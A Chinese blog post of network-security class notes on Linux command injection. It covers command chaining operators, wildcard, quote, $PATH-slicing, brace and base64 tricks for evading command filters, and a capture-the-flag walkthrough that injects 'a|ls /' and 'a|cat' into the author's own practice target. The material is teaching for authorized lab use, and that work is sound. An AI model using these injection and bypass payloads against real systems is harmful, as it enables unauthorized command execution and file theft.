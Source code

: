```yaml
---
layout: post
title: 网管课分享
subtitle: 分享	
date: 2020-11-18
author: mr_king
header-img: img/backimg/bd_10
catalog: true
tags: 
    -分享
    -学习笔记
---
```


## 命令执行

## 前言

给大家开了一个真实的环境，大家可以上去试试（一个靶场）

大家悠着点访问：人太多的话，可能会巨卡甚至奔溃（服务器性能不行）

http://39.103.131.197:8004/ 

http://49.234.221.56:8004/
这是我的阿里云服务器，别乱搞哦。。。。（相当与我给大家授权了）

首先声明一点：在做任何渗透测试之前，没有授权是违法的哦，在未授权的情况下，别去搞别人的站点

### 1.1 Linux下的符号和逻辑运算符

```bash
a=who
b=ami
$a$b
```

![0tPDVe.png](https://s1.ax1x.com/2020/10/05/0tPDVe.png)

Linux下需要用$引用变量

那么我们又可以怎么组合呢，接着来看

Linux下用分号(;)表示命令结束后执行后面的命令，无论前面的命令是否成功

```bash
ping www. ; whoami
echo tj ; whoami
```

![0ti3sf.png](https://s1.ax1x.com/2020/10/05/0ti3sf.png)

符号|在Linux中，可以连接命令,第一条命令的结果，作为第二条命令的输入

符号||在Linux中，如果||左边的命令（命令1）未执行成功，那么就执行||右边的命令（命令2）

符号&&在Linux中，如果左边的命令(命令1)返回真(成功被执行)后，&&右边的命令(命令2)才能够被执行

符号&在linux中，多个命令同时执行，不管前面命令执行成功没有，后面的命令继续执行

根据以上几点结合一个：

```bash
t=l; j=s; i=" -al"; $t$j$i
```

![0tkS3R.png](https://s1.ax1x.com/2020/10/05/0tkS3R.png)

### 1.2linux进阶，符号之间的组合

Linux下，**双引号**和**幂运算符**号都不会影响命令的执行

```bash
whoami
wh$1oami
wh$@oami
who""""ami
whoa$*mi

c$1at /f$1lag
```

在linux中?扮演的角色是匹配任意一个字符，用?来绕过限制

```bash
which whoami //找到whoami路径
# whoami: /usr/bin/whoami /usr/share/man/man1/whoami.1.gz

/u?r/?in/wh?am?

which ifconfig //找到ifconfig
# /sbin/ifconfig
/sbin/if?onfig
```

![0UJXIe.png](https://s1.ax1x.com/2020/10/06/0UJXIe.png)

同理可得，星号*在linux中用来代表一个或多个任何字符，包括空字符

```basj
whoami

/*/bin/wh*mi
/us*/*in/who*mi
```

![0aesyQ.png](https://s1.ax1x.com/2020/10/07/0aesyQ.png)

### 1.3 linux深入，命令中的命令

```bash
666`whoami`666
//命令执行后的结果在2个666中间
```

![0ae5SU.png](https://s1.ax1x.com/2020/10/07/0ae5SU.png)

再次组合起来

```bash
who`echo a`mi#返回结果拼接为字符串，再次执行
w`saldkj2190`ho`12wsa2`am`foj11`i
wh$(70shuai)oa$(fengfeng)mi

```

![0anvse.png](https://s1.ax1x.com/2020/10/07/0anvse.png)

### 1.4 利用linux中的环境变量

linux是可以使用环境变量里的字符执行变量

首先echo $PATH

```bash
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Linux下严格区分大小写，不可以写成$path

```bash
echo ${PATH:number_start:length}
```

```bash
/:0  u:1  s:2  r:3  /:4  l:5  o:6  c:7  a:8  l:9  /:10  s:11  b:12  i:13  n:14  ::15  /:16  u:17  s:18  r:19  /:20  l:21  o:22  c:23  a:24  l:25  /:26  b:27  i:28  n:29  ::30  /:31  u:32  s:33  r:34  /:35  s:36  b:37  i:38  n:39  ::40  /:41  u:42  s:43  r:44  /:45  b:46  i:47  n:48  ::49  /:50  s:51  b:52  i:53  n:54  ::55  /:56  b:57  i:58  n:59  ::60  /:61  u:62  s:63  r:64  /:65  g:66  a:67  m:68  e:69  s:70  ::71  /:72  u:73  s:74  r:75  /:76  l:77  o:78  c:79  a:80  l:81  /:82  g:83  a:84  m:85  e:86  s:87
#每个主机的环境变量不一样，这是我云主机的变量每位
```

如果我现在要查看/root/目录下的1.txt文件，就可以这样操作操作

```bash
cat ${PATH:0:1}${PATH:44:1}${PATH:22:1}${PATH:22:1}t${PATH:0:1}1.txt
```

![0aGAbT.png](https://s1.ax1x.com/2020/10/07/0aGAbT.png)

### 1.5 使用大括号绕过空格过滤

在linux下我们还可以使用大花括号来绕过空格的限制，比如ls -alt命令中间的空格

```bash
{ls,-alt}
```

![0aR39A.png](https://s1.ax1x.com/2020/10/07/0aR39A.png)

再比如cat /etc/passwd命令中间的空格

### 1.6 了解重定向符号在绕过中的作用

我们还可以使用<>来绕过空格。请仔细看执行后的效果。linux中，小于号<表示的是输入重定向，就是把<后面跟的文件取代键盘作为新的输入设备，而>大于号是输出重定向，比如一条命令，默认是将结果输出到屏幕。但可以用>来将输出重定向，用后面的文件来取代屏幕，将输出保存进文件里

```bash
ls<>a
```

![0a4IIO.png](https://s1.ax1x.com/2020/10/07/0a4IIO.png)

### 1.7linux中特殊的base64编码

我们还可以在自己的linux系统中将命令进行base64编码，然后再拿去目标请求中命令执行,使用base64的-d参数解码。

```bash
echo whoami|base64 //先输出whoami的base64编码
`echo dwhvYW1pCg==|base64 -d` //将其base64解码
```

![0aIdEV.png](https://s1.ax1x.com/2020/10/07/0aIdEV.png)

### 1.8靶机实战

靶机地址 http://39.103.131.197:8004/ 

![image-20201125101314766](C:\Users\Mr.King\AppData\Roaming\Typora\typora-user-images\image-20201125101314766.png)

发现拼接命令

没有任何过滤，构造命令a| ls /

```bash
ping -c 2 a|ls /#查看根目录文件
```

[![DUstY9.png](https://s3.ax1x.com/2020/11/25/DUstY9.png)](https://imgchr.com/i/DUstY9)

查看flag a|cat /flllaagg

[![DUshOf.png](https://s3.ax1x.com/2020/11/25/DUshOf.png)](https://imgchr.com/i/DUshOf)

Linux命令执行方法很多，不止我写的这一种，大家可以自己试验。